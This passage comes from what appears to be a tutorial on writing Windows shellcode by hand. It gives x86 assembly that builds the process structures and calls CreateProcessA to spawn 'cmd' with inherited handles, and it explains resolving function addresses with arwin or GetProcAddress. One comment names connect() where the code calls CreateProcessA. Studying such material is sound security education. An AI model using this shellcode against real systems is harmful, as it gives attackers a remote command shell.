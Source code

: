    ```
   push edx                ; dwXCountChars = NULL
   push edx                ; dwYSize = NULL
   push edx                ; dwXSize = NULL
   push edx                ; dwY = NULL
   push edx                ; dwX = NULL
   push edx                ; lpTitle = NULL
   push edx                ; lpDesktop = NULL
   push edx                ; lpReserved = NULL
   add dl,44               ; cb = 44
   push edx                ; Push _STARTUPINFOA on stack
   mov eax,esp             ; Make EAX a pointer to _STARTUPINFOA
   xor edx,edx             ; Zero out EDX again
   ```
3) Allocate space on the stack for the `PROCESS_INFORMATION` structure, this can be all null as we do not care what is written here. 
   ```
   ; Fill PROCESS_INFORMATION struct
   push edx                ; lpProcessInformation
   push edx                ; lpProcessInformation + 4
   push edx                ; lpProcessInformation + 8
   push edx                ; lpProcessInformation + 12
   ```
4) Prepare stack for the `CreateProcessA` Call.
   ```
   ; Now fill out the `CreateProcessA` parameters
   push esp                ; lpProcessInformation
   push eax                ; lpStartupInfo
   xor ebx,ebx             ; Zero out EBX to fill other parameters
   push ebx                ; lpCurrentDirectory
   push ebx                ; lpEnvironment
   push ebx                ; dwCreationFlags
   inc ebx                 ; bInheritHandles = True
   push ebx                ; Push bInheritHandles
   dec ebx                 ; Make EBX zero again
   push ebx                ; lpThreadAttributes
   push ebx                ; lpProcessAttributes
   push ecx                ; lpCommandLine = Pointer to 'cmd\x00'
   push ebx                ; lpApplicationName
   ```
5) Make the function call.
   ```
   mov ebx,0x7c80236b      ; Address of CreateProcessA()
   call ebx                ; Call CreateProcessA()
   ```
   * The address of the `connect(...)` function is found with [arwin](https://github.com/xinwenfu/arwin).
   * We will return to the stack, and we do not need to save the return value (It will return if it failed or not).
 

#### Arwin 
This section will show you how we can get the address of a function using [arwin](https://github.com/xinwenfu/arwin). It is unlikely you will have access to the target computer to run the [arwin](https://github.com/xinwenfu/arwin) program in most scenarios, and in those cases you would need to add to the shell code a section that calls [`getProcAddress(...)`](https://marcosvalle.github.io/re/exploit/2018/10/21/windows-manual-shellcode-part2.html#:~:text=Get%20WSASocketA%20with-,GetProcAddress,-This%20step%20is).
